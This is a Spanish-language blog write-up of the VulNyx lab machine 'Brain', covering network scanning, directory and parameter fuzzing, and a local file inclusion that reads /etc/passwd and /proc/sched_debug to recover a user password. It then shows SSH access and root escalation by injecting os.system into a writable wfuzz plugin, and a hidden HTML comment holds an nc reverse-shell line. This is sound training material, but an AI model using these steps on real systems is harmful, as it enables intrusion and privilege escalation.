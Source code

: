 ```yaml
---
layout: post
title: "Brain"
date: 2024-04-19 12:57:23
category: sample
vm: vulnyx
---
```


<style>
  .post-content {
    color: #51c25be1; /* Cambia el color del texto */
  }
</style>

<table class="log">
  <tr>
    <td rowspan="5"><img src="/notas/public/img/vulnyx/vulnyx.png" width=252></td>
    <td></td>
  </tr>
  <tr> <td><strong>Máquina:</strong> Brain </td> </tr>
  <tr> <td><strong>SO:</strong> Linux</td> </tr>
  <tr> <td><strong>Dificultad:</strong> <span class="easy">Easy</span></td> </tr>
  <tr> <td><strong>Link OVA:</strong><a href="https://vulnyx.com/#brain"> Vulnyx</a></td> </tr>
</table>

<br>

![serve](/notas/public/img/vulnyx/brain/host.png){:.margin}

**1\.** Verificamos dispositivos en la red.

`sudo arp-scan -I enp2s0 --localnet`

![host](/notas/public/img/vulnyx/brain/arp_scan.png){:.margin}

**2\.** Escaneamos puertos del host víctima.

`sudo nmap -p- -sS -T5 -sCV --open --min-rate=5000 -n -Pn 192.168.1.7 -oN report_scan`

![host](/notas/public/img/vulnyx/brain/nmap.png){:.margin}

**3\.** Visitamos el servicio Apache por el puerto 80.

`http://192.168.1.7/`

![host](/notas/public/img/vulnyx/brain/80.png){:.margin}

**4\.** Hacemos fuzzing de directorios y archivos.

`gobuster dir -u http://192.168.1.7/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x html,php,txt`

![host](/notas/public/img/vulnyx/brain/gobuster.png){:.margin}

- Si visitamos index.php vemos lo mismo:

![host](/notas/public/img/vulnyx/brain/index.png){:.margin}

**5\.** Hacemos fuzzing de parámetros en busca de un LFI..

`wfuzz -c -t 50 --hl=7 --hc=404 -w /usr/share/wordlists/seclists/Discovery/Web-Content/burp-parameter-names.txt 'http://192.168.1.7/index.php?FUZZ=/etc/passwd'`

![host](/notas/public/img/vulnyx/brain/wffuz.png){:.margin}

**6\.** Ingresamos la ruta completa con el parámetro hallado.

`http://192.168.1.7/index.php?include=/etc/passwd`

![host](/notas/public/img/vulnyx/brain/include.png){:.margin}

_tenemos inclusion de archivos locales (LFI)_

- Si presionamos `ctrl + u` podemos visualizar mejor, y encontramos el usuario ben:

![host](/notas/public/img/vulnyx/brain/ben.png){:.margin}

**7\.** incluimos el la ruta sched_debug, donde podemos ver la contraseña de ben.

`view-source:http://192.168.1.7/index.php?include=/proc/sched_debug`

![host](/notas/public/img/vulnyx/brain/sched_debug.png){:.margin}

_\- Si un servidor web tiene una vulnerabilidad LFI y permite acceder a esta ruta, un atacante podría obtener información confidencial, como contraseñas almacenadas en memoria._

**8\.** Accedemos por ssh al host como el usuario ben.

`ssh ben@192.168.1.7`

![host](/notas/public/img/vulnyx/brain/ssh_ben.png){:.margin}

**9\.** Listamos permisos sudo, podemos ejecutar el binario wfuzz como root.

`sudo -l`

![host](/notas/public/img/vulnyx/brain/sudo_l.png){:.margin}

_\- buscando en la web [gtfobins](https://gtfobins.github.io/#wfuzz) no encontramos referencia alguna._

**10\.** Buscamos archivos con permisos de escritura relacionados al binario wfuzz.

`find / -type f -writable 2> /dev/null | grep wfuzz`

![](/notas/public/img/vulnyx/brain/find.png){:.margin}

**11\.** Agregamos estas 2 lineas para obtener una bash.

`nano /usr/lib/python3/dist-packages/wfuzz/plugins/payloads/range.py`

`import os`

`os.system("/bin/bash")`

![](/notas/public/img/vulnyx/brain/nano.png){:.margin}

<!-- os.system("nc -e (/bin/sh 192.168.1.12 443") ///alternativa enivarnos una shell -->

**12\.** Ejecutamos el binario como root, ya somos superusuario.

`sudo /usr/bin/wfuzz -c -z range 1-2`

![](/notas/public/img/vulnyx/brain/root.png){:.margin}

**13\.** Finalizamos leendo la flag de root.

`cd`

`ls`

`cat root.txt`

![](/notas/public/img/vulnyx/brain/flag.png){:.margin}

<br>

<span class="finish">_Finalizado._</span>